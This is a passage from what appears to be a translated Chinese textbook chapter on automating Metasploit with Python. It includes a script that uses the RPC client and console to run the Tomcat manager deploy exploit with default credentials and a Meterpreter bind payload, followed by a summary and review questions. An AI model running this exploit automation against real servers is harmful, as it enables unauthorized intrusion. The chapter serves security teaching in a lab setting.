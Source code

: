 与我们对`python-msfprc`所做的类似，通过这个模块，我们还可以连接到控制台并像在 msfconsole 中一样运行命令。我们可以通过两种方式来做到这一点。第一个是在激活漏洞后使用扫描对象。第二种方法是使用 console 对象执行命令，执行方式与我们与 msfconsole 交互时相同。

您可以在`pyMetasploit`文件夹的`exploit_tomcat_maanger.py`文件中找到以下代码：

```py
from Metasploit.msfrpc import MsfRpcClient
from Metasploit.msfconsole import MsfRpcConsole

client = MsfRpcClient('password', user='msf')

exploits = client.modules.exploits
for exploit in exploits:
    print("\t%s" % exploit)

scan = client.modules.use('exploits', 'multi/http/tomcat_mgr_deploy')
scan.description
scan.required
scan['RHOST'] = '192.168.100.2'
scan['RPORT'] = '8180'
scan['PATH'] = '/manager'
scan['HttpUsername'] = 'tomcat'
scan['HttpPassword'] = 'tomcat'
scan['payload'] = 'java/meterpreter/bind_tcp'
print(scan.execute())

console = MsfRpcConsole(client)
console.execute('use exploit/multi/http/tomcat_mgr_deploy')
console.execute('set RHOST 192.168.100.2')
console.execute('set RPORT 8180')
console.execute('set PATH /manager')
console.execute('set HttpUsername tomcat')
console.execute('set HttpPassword tomcat')
console.execute('set payload java/meterpreter/bind_tcp')
console.execute('run')
```

# 总结

本章的目标之一是了解 Metasploit 框架作为利用漏洞的工具，以及如何在 Python 中以编程方式与 Metasploit 控制台交互。使用诸如 Python msfrpc 和 pyMetasploit 之类的模块，可以自动执行模块并利用 Metasploit 框架中的漏洞。

在下一个[章节](10.html)中，我们将探讨我们可以在 Metasploitable 虚拟机中找到的漏洞，以及如何从 Python 模块中连接到漏洞扫描程序，如`nessus`和`nexpose`，以提取这些漏洞。

# 问题

1.  在 Metasploit 中与模块交互和执行漏洞利用的接口是什么？
2.  利用 Metasploit 框架开发系统的主要步骤是什么？
3.  使用 Metasploit 框架在客户端和 Metasploit 服务器实例之间交换信息的接口的名称是什么？
4.  generic/shell\u bind\u tcp 和 generic/shell\u reverse\u tcp 之间有什么区别？
5.  我们可以执行哪个命令来连接 msfconsole？
6.  与 msfconsole 实用程序相同，我们需要使用什么函数与框架交互？
7.  使用 Metasploit 框架在客户端和 Metasploit 服务器实例之间交换信息的远程访问接口的名称是什么？
8.  我们如何从 Metasploit 服务器获取所有利用漏洞的列表？
9.  Metasploit 框架中的哪些模块可以访问 tomcat 中的应用程序管理器，并利用 ApacheTomcat 服务器获取会话计量器？
10.  哪一个是在 tomcat 服务器中执行攻击时建立 MeterMeter 会话的有效负载名称？
